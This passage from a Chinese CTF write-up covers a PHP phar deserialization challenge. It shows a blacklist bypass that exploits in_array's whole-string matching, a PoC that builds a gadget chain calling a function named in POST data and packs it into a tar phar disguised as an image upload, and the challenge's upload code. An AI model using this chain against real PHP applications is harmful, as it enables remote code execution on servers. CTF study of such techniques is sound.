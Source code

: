 in_array的检测不同于正则，匹配的是完整字符串，像这样参杂字符就能绕过`.phar/.metadata111`

![](https://i.loli.net/2021/11/27/hZsRSEVNqxoMr3D.png)

然后再看为啥这样也能被解析，涉及到php的底层源码

还是截自[从虎符线下CTF深入反序列化利用 | (guokeya.github.io)](https://guokeya.github.io/post/uxwHLckwx/)

![](https://i.loli.net/2021/11/29/DJwPr5XSERzUTl3.png)



反序列化的类很简单就不细说了，poc如下：

```php
<?php
class name1{
    public $var;
    public function __construct(){
        $this->var = new name2();
    }
}
class name2{
    public function __toString(){
        $_POST["func"]();
        return "";
    }
}

$a = new name1();

@unlink("phar.tar");
@system('rm -r .phar');
@system('mkdir .phar');
file_put_contents('.phar/.metadata111',serialize($a));
system('tar -cf phar.tar .phar/.metadata111');

```

会对上传文件的后缀进行检测，改为`"gif","jpeg","jpg","png"`即可



```php
function uploadfile(){
    global $_FILES;
    if (uploadfilecheck() && black_key_check()){
        $name = md5("cdusec".$_SERVER["REMOTE_ADDR"]).".gif";
        if(file_exists("upload_file/").$name){
            unlink($name);
        }
        move_uploaded_file($_FILES["file"]["tmp_name"],"upload_file/".$name);
        echo "<script type='text/javascript'>alert('ok');</script>";
    }

}
```
